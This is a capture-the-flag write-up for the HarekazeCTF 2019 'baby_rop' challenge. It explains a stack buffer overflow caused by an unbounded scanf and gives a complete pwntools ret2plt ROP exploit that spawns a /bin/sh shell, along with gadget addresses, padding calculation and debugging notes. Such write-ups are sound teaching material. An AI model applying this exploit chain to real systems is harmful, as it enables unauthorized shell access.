



<div align="center">

# 🩻 baby_rop

### Pwn Writeup · HarekazeCTF 2019 · `ret2plt` via `system("/bin/sh")`


*No canary, no PIE, `system()` already linked — just an unbounded `scanf("%s", buf)` away from a shell.*

</div>

---

## 📌 TL;DR

A 64-bit, dynamically linked, **No‑PIE, no‑canary** binary with NX enabled. The binary already imports `system()` from libc but never calls it with an attacker-controlled argument. We build a minimal ROP chain using a `pop rdi; ret` gadget found inside the binary itself, point `rdi` at an existing `"/bin/sh"` string in `.data`, and jump into `system@plt`. A single extra `ret` gadget is required beforehand to satisfy x86-64 stack alignment for an SSE instruction (`movaps`) used internally by glibc.

| | |
|---|---|
| **Binary** | `rop` — ELF 64-bit, dynamically linked, No PIE |
| **Bug** | `scanf("%s", buf)` — unbounded write into a 16-byte stack buffer |
| **Protections** | Canary **off** · NX **on** · PIE **off** · Partial RELRO |
| **Primitive** | `ret2plt`: reuse the already-linked `system@plt` |
| **Padding** | 24 bytes to the saved return address |
| **Result** | Interactive `/bin/sh` shell |

---

## 🗺️ Table of Contents

1. [Recon](#1--recon)
2. [Disassembling `main`](#2--disassembling-main)
3. [Finding the Padding](#3--finding-the-padding-two-independent-methods)
4. [Building the ROP Chain](#4--building-the-rop-chain)
5. [Exploit](#5--exploit)
6. [Tools & Commands](#6--tools--commands-used)
7. [Environment Pitfalls](#7--environment-pitfalls-encountered-along-the-way)
8. ["What if...?"](#8--what-if--interesting-questions-from-along-the-way)
9. [Appendix — Key Addresses](#appendix--key-addresses-no-pie-base-0x400000)

---

## 🧭 Exploit Dev Flow at a Glance



---

## 1. 🔎 Recon

### 1.1 File identification

```bash
file rop
```

```
rop: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked,
interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32,
BuildID[sha1]=b5a3b2575c451140ec967fd78cf8a60f2b7ef17f, not stripped
```

### 1.2 Protections

```bash
pwn checksec --file=rop
```

```
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```

| Protection | Status | Impact on exploitation |
|---|---|---|
| Canary | **Off** | Can overflow straight through to the saved return address, no leak needed. |
| NX | **On** | Can't execute shellcode placed on the stack/`.bss`/heap — forces a code-reuse (ROP) approach instead of classic shellcode injection. |
| PIE | **Off**, base `0x400000` | Every address inside the binary (`.text`, `.rodata`, `.data`, PLT stubs, gadgets) is **fixed** across runs — no leak required to use them. |
| RELRO | Partial | GOT is writable but not directly relevant to this exploit path. |

**Conclusion:** classic NX-bypass scenario. No canary to defeat, no PIE to leak around — we only need a working ROP chain built entirely out of addresses that are already fixed.

### 1.3 Looking for a ready-made win function

```bash
nm rop | grep ' T '
```

```
0000000000400694 T _fini
0000000000400460 T _init
0000000000400690 T __libc_csu_fini
0000000000400620 T __libc_csu_init
00000000004005d6 T main
00000000004004e0 T _start
```

No `win()`, no backdoor — only `main` and the usual startup routines. A manual ROP chain is required.

### 1.4 Imported (undefined) symbols

```bash
nm rop | grep ' U '
```

```
U __isoc99_scanf@@GLIBC_2.7
U __libc_start_main@@GLIBC_2.2.5
U printf@@GLIBC_2.2.5
U system@@GLIBC_2.2.5
```

`system` is already linked into the binary. We don't need to leak libc — we just need to call it correctly, with an argument we control, using the **x86-64 System V calling convention** (first argument goes in `rdi`, not on the stack like in 32-bit cdecl).

---

## 2. 🧩 Disassembling `main`

```bash
objdump -d rop
```

```asm
0000000000400690 <main>:
  4005d6: 55                   push   %rbp
  4005d7: 48 89 e5             mov    %rsp,%rbp
  4005da: 48 83 ec 10          sub    $0x10,%rsp
  4005de: bf a8 06 40 00       mov    $0x4006a8,%edi
  4005e3: e8 a8 fe ff ff       call   400490 <system@plt>
  4005e8: 48 8d 45 f0          lea    -0x10(%rbp),%rax
  4005ec: 48 89 c6             mov    %rax,%rsi
  4005ef: bf c5 06 40 00       mov    $0x4006c5,%edi
  4005f4: b8 00 00 00 00       mov    $0x0,%eax
  4005f9: e8 c2 fe ff ff       call   4004c0 <__isoc99_scanf@plt>
  4005fe: 48 8d 45 f0          lea    -0x10(%rbp),%rax
  400602: 48 89 c6             mov    %rax,%rsi
  400605: bf c8 06 40 00       mov    $0x4006c8,%edi
  40060a: b8 00 00 00 00       mov    $0x0,%eax
  40060f: e8 8c fe ff ff       call   4004c0 <printf@plt>
  400614: b8 00 00 00 00       mov    $0x0,%eax
  400619: c9                   leave
  40061a: c3                   ret
```

### Reconstructed C

```c
int main(void) {
    char buf[16];                          // rbp-0x10, 0x10 bytes reserved

    system("echo -n \"What's your name? \""); // 0x4006a8 → string in .rodata

    scanf("%s", buf);                      // 0x4006c5 → "%s"
    printf("Welcome to the Pwn World, %s!\n", buf); // 0x4006c8 → format string

    return 0;
}
```

Two important discoveries here:

1. **The vulnerability**: `scanf("%s", buf)` reads an unbounded string into a 16-byte stack buffer — classic stack buffer overflow, no length check.
2. **A red herring**: the first `system()` call in `main` is harmless — it only prints the prompt via `echo`. Its argument lives in **read-only** memory, so overwriting it is not an option. It's simply *why* `system` ends up linked into the binary at all.

---

## 3. 📏 Finding the Padding (two independent methods)

### Stack layout at the overflow point



### Method A — manual, from the disassembly

```
sub $0x10, %rsp        → buffer is 16 bytes, starts at rbp-0x10
push %rbp was executed → frame pointer is in use
```

Formula (64-bit, frame pointer present):

```
padding = distance(buffer → rbp) + 8   (the 8 bytes being the saved rbp itself)
        = 0x10 + 8
        = 24 bytes
```

### Method B — practical, with `cyclic` + a corefile

```bash
ulimit -c unlimited
sudo bash -c 'echo core > /proc/sys/kernel/core_pattern'   # see pitfalls below
```

```python
from pwn import *

p = process('./rop')
p.sendline(cyclic(200))
p.wait()
core = p.corefile
print(hex(core.pc))
```

```
RIP: 0x6161616861616167
```

```bash
python3 -c "from pwn import *; print(cyclic_find(0x6161616861616167))"
# 24
```

Both methods agree: **padding = 24 bytes**.

---

## 4. 🔗 Building the ROP Chain

### 4.1 The gadget we need

x86-64 System V calling convention passes the first function argument in `rdi`. To call `system("/bin/sh")` we need to:

1. Put the address of the string `"/bin/sh"` into `rdi`.
2. Jump into `system`.

```bash
ROPgadget --binary rop | grep "pop rdi"
```

```
0x0000000000400683 : pop rdi ; ret
```

### 4.2 Finding `system@plt`

```bash
objdump -d rop | grep "system@plt"
```

```
0000000000400490 <system@plt>:
```

Since PIE is off, this PLT stub address is fixed and can be called directly without resolving the real libc address of `system`.

### 4.3 Finding a `"/bin/sh"` string already in memory

```bash
strings -a -t x rop | grep "sh"
```

```
1048 /bin/sh
```

**Pitfall:** this `1048` is a **file offset**, not a virtual address. The naive formula `vaddr = 0x400000 + offset` only works for addresses that fall inside the *first* ELF segment. Checking the section headers:

```bash
readelf -S rop
```

```
[16] .rodata   Address: 0x4006a0   Offset: 0x6a0   Size: 0x47   → 0x6a0–0x6e7
[25] .data     Address: 0x601038   Offset: 0x1038  Size: 0x18   → 0x1038–0x1050
```

File offset `0x1048` falls inside `.data` (second segment, base `0x600000`), **not** `.rodata`. The correct conversion for this segment is:

```
vaddr = section.Address - section.Offset + file_offset
      = 0x601038 - 0x1038 + 0x1048
      = 0x601048
```

Using `0x401048` (the naive/wrong formula) silently pointed into unrelated memory and was the root cause of an early, confusing set of segfaults.

### 4.4 The alignment gadget

Even with every address correct, the exploit still crashed locally. A corefile inspection of the crash site showed:

```
RIP: 0x7fcbf641e973
movaps XMMWORD PTR [rsp], xmm1
```

`movaps` is an SSE instruction that **requires** its memory operand to be 16-byte aligned, or the CPU raises a `#GP` fault (SIGSEGV). Because ROP chains move the stack pointer in 8-byte steps via `ret` (instead of the 16-byte-respecting `call`/`push rbp` sequence a normal function prologue would produce), `rsp` can easily end up mis-aligned by the time `system()` runs internal glibc code that uses `movaps`.

Fix: insert one bare `ret` gadget to shift `rsp` by an extra 8 bytes.

```bash
ROPgadget --binary rop | grep ": ret"
```

```
0x0000000000400479 : ret
```

### 4.5 Final chain layout



```
[ 24 bytes padding ]
[ 0x400479 ]   ret                    ; stack alignment fix
[ 0x400683 ]   pop rdi ; ret          ; load rdi
[ 0x601048 ]   "/bin/sh"              ; value popped into rdi
[ 0x400490 ]   system@plt             ; system("/bin/sh")
```

---

## 5. 🚀 Exploit

```python
from pwn import *

context.arch = 'amd64'

# p = process('./rop')
p = remote('HOST', PORT, ssl=True, sni='HOST')

PADDING       = b"A" * 24
RET_GADGET    = p64(0x400479)   # ret                — alignment fix
POP_RDI_RET   = p64(0x400683)   # pop rdi ; ret
BINSH_ADDR    = p64(0x601048)   # "/bin/sh" in .data
SYSTEM_PLT    = p64(0x400490)   # system@plt

payload  = PADDING
payload += RET_GADGET
payload += POP_RDI_RET
payload += BINSH_ADDR
payload += SYSTEM_PLT

p.sendline(payload)
p.interactive()
```

Result: interactive `/bin/sh` shell on the remote target. ✅

---

## 6. 🧰 Tools & Commands Used

| Tool | Purpose |
|---|---|
| `file` | Identify architecture / linking type |
| `checksec` (pwntools) | Check NX / PIE / canary / RELRO |
| `nm` | List defined (`T`) and undefined/imported (`U`) symbols |
| `objdump -d` | Disassemble functions, locate PLT stubs |
| `objdump -s -j <section>` | Dump raw bytes of a section (reading strings manually) |
| `strings -a -t x` | Find printable strings with their file offsets |
| `readelf -S` | List section headers (address, offset, size) — needed to correctly convert file offsets to virtual addresses across segments |
| `ROPgadget --binary` | Search for usable gadgets (`pop rdi; ret`, bare `ret`, etc.) |
| `pwntools` (`process`, `remote`, `p64`, `cyclic`, `cyclic_find`, `corefile`) | Build, test and deliver the exploit; crash triage without live gdb |
| `gdb` / `pwndbg` | Interactive debugging (used for triage, with several environment pitfalls — see below) |

---

## 7. 🪤 Environment Pitfalls Encountered Along the Way

These cost more time than the exploit logic itself and are worth documenting:

- **`zsh` glob expansion**: a project folder containing `[` and `]` in its name (`[HarekazeCTF2019]baby_rop`) made `zsh` interpret the path as a glob pattern instead of a literal filename, both for plain shell commands and for `gdb`'s internal re-invocation of the shell on `run`. Fixed by quoting paths and, for `gdb`, with `set startup-with-shell off`.
- **`vfork` + `gdb`**: `system()` internally `vfork()`s a child shell to run `echo`. `gdb`'s default `follow-fork-mode` attaches to the *child*, which exits almost immediately, making the parent (the actually vulnerable process) appear to behave incorrectly. Fixed with `set follow-fork-mode parent` + `set detach-on-fork on`.
- **Ubuntu `apport`**: `/proc/sys/kernel/core_pattern` was piping crash dumps to `apport` instead of writing a plain `core` file, which broke `pwntools`' `corefile` introspection. Fixed (temporarily, for the current session) with `echo core > /proc/sys/kernel/core_pattern`.
- **No GUI / no new-terminal support for `gdb.attach()`**: over SSH without a graphical terminal, pwntools' automatic `gdb.attach()` (which tries to spawn a new terminal window) fails outright. Crash triage was done instead with `process()` + `.wait()` + `.corefile` (`core.pc`, `core.rsp`, `core.disasm(...)`), which needs no terminal multiplexing at all and turned out to be the more reliable approach in this environment.
- **File-offset → virtual-address conversion is per-segment, not global**: `vaddr = 0x400000 + file_offset` only holds within the first PT_LOAD segment. Applying it blindly to an offset that actually belonged to a different segment (`.data`, based at `0x600000`) produced a plausible-looking but completely wrong address — always cross-check with `readelf -S` instead of assuming a single global base.

---

## 8. 🤔 "What if...?" — Interesting Questions From Along the Way

A few detours that turned out to matter more than expected:

- **What if NX weren't enabled?** We could've written shellcode directly into the 16-byte buffer (or `.bss`) and jumped to it with a plain return-address overwrite — no gadget hunting needed at all.
- **What if PIE were enabled?** Every address used in this writeup (`pop rdi; ret`, `system@plt`, the `/bin/sh` string, the alignment `ret`) would shift on every run. We'd first need an information leak (e.g. via the existing `printf` call, which already formats a `%s` — a format-string or a GOT-leak primitive could plausibly bootstrap a `libc` base leak here) before building the same chain with runtime-computed addresses.
- **What if `system` weren't linked at all?** We'd have no `system@plt` to jump to. The remaining option would be a full manual `execve("/bin/sh", NULL, NULL)` via `int 0x80`/`syscall`, which needs `rax`, `rdi`, `rsi`, `rdx` populated through a longer gadget chain, plus a writable location for the `/bin/sh\x00` string if one isn't already present in memory.
- **What if the first bytes of an address collided with whitespace (`0x20`, `0x09`, `0x0a`, `0x0d`)?** Since input is read with `scanf("%s", ...)`, any such byte in the middle of our payload would truncate it early. Every address in the final chain was checked byte-by-byte for this before sending — none did, but it's a real risk any time `%s`/`gets`-style input handling is involved.
- **What if we'd trusted the first `strings`-derived address without checking the section layout?** We did, initially — and it cost the most debugging time in this whole challenge. `0x401048` looked completely reasonable, sat inside the executable's address range, and still pointed at nothing meaningful, because it crossed from the `.text`/`.rodata` segment's offset space into the `.data` segment's own. The lesson: never assume a single `base + offset` formula applies across an entire binary — always check which segment/section an offset actually belongs to.
- **Why did the exploit crash locally with *correct* addresses, but only intermittently?** Stack alignment bugs are environment-sensitive: whether `rsp` happens to already be 16-byte aligned at the point of the overflow depends on compiler, libc version, and ASLR-randomized stack layout. This makes alignment-related ROP bugs some of the more confusing ones to diagnose from a single crash — the fix (an extra `ret`) is cheap, but recognizing the symptom (`movaps` / `#GP` on an SSE instruction at a libc address) is the real skill.

---

## Appendix — Key Addresses (No PIE, base `0x400000`)

| Symbol / gadget | Address |
|---|---|
| `pop rdi ; ret` | `0x400683` |
| bare `ret` (alignment fix) | `0x400479` |
| `system@plt` | `0x400490` |
| `"/bin/sh"` string | `0x601048` |
| Buffer overflow padding | `24` bytes |

---

<div align="center">

⭐ If this writeup helped you, consider leaving a star.

</div>
